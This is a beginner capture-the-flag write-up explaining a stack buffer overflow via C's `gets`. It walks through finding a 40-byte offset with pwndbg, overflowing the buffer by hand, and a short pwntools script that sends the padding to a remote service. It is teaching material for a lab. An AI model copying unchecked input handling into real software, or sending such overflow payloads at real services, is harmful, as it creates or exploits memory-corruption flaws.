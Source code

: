 # Challenge Name
babybof

## Learning Objective
Understand:
1. segmentation fault
2. buffer overflow
3. `gets` vulnerability

## Description 
Master this and further concepts will be easy.

## Difficulty:
Guided (Easy)

## Guide
Let's look at the source code:

In `main`:

```c
    // runs sigsegv_trigger() when a segmentation fault occurs
    signal(SIGSEGV, sigsegv_trigger);
```

From the code comment, we need to trigger a **segmentation fault** to run `sigsegv_trigger` function.

In `sigsegv_trigger`:

```c
    printf("Here is your flag: \n");
    FILE *file = fopen("flag.txt", "r");
    char flag[256];
    fgets(flag, 256, file);
    printf("%s", flag);
    fclose(file);
```

This function will give us our flag. How do we start?

### `gets` vulnerability

In `vuln`:

```c
    // vulnerable c function
    gets(buffer);
```

One of the most common C vulnerabilities. This function does not perform boundary checking, which means it will accept user input even if it is beyond allocated size.

### Buffer overflow

To put it simply, let's say a basket can hold 10 apples at maxmimum. But if I were to try and put 20 apples, some of these apples will overflow. You would then need to use another basket.

In programs, excess bytes will overflow into other values/addresses on the stack memory. 

### What is Segmentation Fault? How does it happen?

This is an error that occurs when a program attempts to access memory that is **not permitted to the user**. 



For example: reading/writing outside given boundaries (aka Buffer overflow).

There are 2 important addresses in a stack frame that is **not permitted** to us:
1. saved base pointer (RBP) address
2. return address

**HOWEVER**, it is important to note that if you overwrite the addresses with an existing/valid address in the binary, it will continue running but with the overwritten address.

Let's try to overflow the **base pointer address** since it is always closer to the buffer.


### Find number of bytes to overflow base pointer address

1. Open program with pwndbg
```shell
$> gdb chall
```

2. Generate the cyclic pattern of 100 bytes (or any number big enough to cause a segmentation fault) & copy the output
```shell
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaa...
```

3. Run the program and paste when prompted
```shell
pwndbg> run
``` 

You should be able to observe this in the registers:
```shell
 RBP  0x6161616161616165 ('eaaaaaaa')
 RSP  0x7fffffffdc48 ◂— 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
```

This was from our cyclic pattern. This pattern helps us to identify how many bytes we need **before** it goes into whichever part of the stack we want.

In 64-bit programs, after the `RBP` is overflowed, the remaining will go into the `RSP` register.

So in this case,`faaaaaaa` will point to us how many bytes we need to **completely** overwrite saved RBP address.

Let's identify how many bytes we need with the following command below:
```shell
pwndbg> cyclic -l faaaaaaa
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

### Manual Exploit 
Let's put 40 bytes of input (in this case I will put 40 `A`s) into the program, let's see what happens
```shell
$> ./chall
Hello World!
Enter some text: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation Fault!
Here is your flag: 
CTF{PLACEHOLDER} 
```

We got the flag!

### Script solve
In furher exercises, we will be using python script to solve. This is where `pwntools` will come in.

1. Import the library
```python
from pwn import *
```

2. Depending on whether you want to solve locally or remotely, add either of the following:
```python
# local solve
p = process("./chall")

# remote solve
p = process("IP", PORT)
```

3. Since we want to send 40 `A`s:
```python
payload = b'A' * 40
p.sendline(payload)
```

4. Interact with the service
```python
p.interactive()
```

When we put all that together u should get this:
```python
from pwn import *

# setup process
p = remote("ip", port)

# payload 
payload = b'A' * 40

# send payload
p.sendline(payload)
p.interactive()
```

Run in your terminal to solve:
```shell
$> python3 script.py
```

## Solution
Refer to solve.py.

## Hints
1. What causes segmentation fault? 
2. Have you considered saved RBP address?

## Attached Files
- chall.c
- chall

## Resources
- http://ctf101.org

## Flag
TBD
